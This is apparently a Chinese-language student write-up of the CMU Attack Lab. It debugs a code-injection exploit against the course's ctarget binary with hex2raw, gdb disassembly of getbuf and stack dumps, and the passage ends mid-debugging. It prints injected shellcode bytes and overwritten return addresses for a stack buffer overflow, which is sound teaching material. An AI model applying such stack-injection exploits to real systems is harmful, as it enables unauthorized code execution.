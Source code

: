 执行

```
unix> ./hex2raw < exploit2.txt > exploit-raw2.txt
unix> ./ctarget -q -i exploit-raw2.txt
```

报错了，查看下问题存在的原因：

```bash
crx@ubuntu:03_attack_lab$ ./hex2raw < exploit2.txt > exploit-raw2.txt
crx@ubuntu:03_attack_lab$ ./ctarget -q -i exploit-raw2.txt
Cookie: 0x59b997fa
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:FAIL:0xffffffff:ctarget:0:C3 00 40 17 EC 68 59 B9 97 FA C7 C7 48 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00

```

已经修改了真正的漏洞代码地址：执行地址应该是栈顶地址`0x5561dc78`加上`0xd`，即为`0x5561dc85`。重新执行，还是报错。

单步执行下，看看是否填充字符后，数据怎么分布的：

```bash
(gdb) disassemble
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
=> 0x00000000004017bd <+21>:    ret
End of assembler dump.
(gdb) x/50xb $rsp
0x5561dca0:     0x6b    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
0x5561dca8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dcb0:     0x24    0x1f    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dcb8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dcc0:     0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
0x5561dcc8:     0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
0x5561dcd0:     0xf4    0xf4
(gdb)
```

在getbf返回之前下的断点，然后打印此时栈空间的数据，发现从栈顶`0x5561dca0`开始保存的居然是漏洞的执行地址`0x5561dc6b`，而正常情况下这里应该保存的是漏洞代码。而漏洞的执行地址应该存放`0x5561dcc8`即`%rsp + 0x28`，为什么会这样？😶

好吧，这样是没问题的，因为断点打错了，应该是打在还尚未将栈空间回收的`0x4017b9`处，重新来：

```
(gdb) x/50xb $rsp
0x5561dc78:     0xc3    0x00    0x40    0x17    0xec    0x68    0x59    0xb9
0x5561dc80:     0x97    0xfa    0xc7    0xc7    0x48    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dca0:     0x6b    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
0x5561dca8:     0x00    0x00
```
